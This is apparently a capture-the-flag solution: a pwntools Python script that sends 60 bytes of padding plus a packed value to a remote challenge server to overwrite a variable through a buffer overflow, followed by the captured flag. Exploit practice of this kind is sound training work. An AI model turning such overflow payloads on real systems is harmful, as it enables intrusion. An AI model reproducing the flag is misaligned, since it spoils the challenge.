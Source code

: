 ```
from pwn import *

#p = process('./buffer')
#elf = ELF('./buffer')
p = remote('chall.pwnoh.io', 13372)
res = p.recvuntil(':')
print(res)
offset = 60
payload = b'a' * offset + p64(0x45454545)
p.sendline(payload)

p.interactive()
```

#bctf{wHy_WriTe_OveR_mY_V@lUeS}
